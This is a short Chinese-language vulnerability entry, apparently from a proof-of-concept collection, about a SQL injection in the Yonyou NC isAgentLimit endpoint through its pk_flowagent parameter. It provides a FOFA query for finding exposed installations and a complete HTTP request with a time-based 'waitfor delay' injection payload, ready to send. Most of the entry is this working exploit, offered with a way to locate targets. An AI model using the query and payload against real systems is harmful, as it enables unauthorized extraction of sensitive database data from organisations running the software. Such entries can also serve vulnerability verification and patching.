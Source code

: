 ## 用友NC-oacoSchedulerEvents接口存在sql注入漏洞

用友NC存在SQL注入漏洞，该漏洞源于/portal/pt/oacoSchedulerEvents/isAgentLimit接口中的pk_flowagent参数存在sql注入漏洞，攻击者可通过该漏洞获取数据库敏感数据。

## fofa

```
app="用友-UFIDA-NC"
```

## poc

```
GET /portal/pt/oacoSchedulerEvents/isAgentLimit?pageId=login&pk_flowagent=1'waitfor+delay+'0:0:5'-- HTTP/1.1
Host: 
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/121.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Connection: close
```

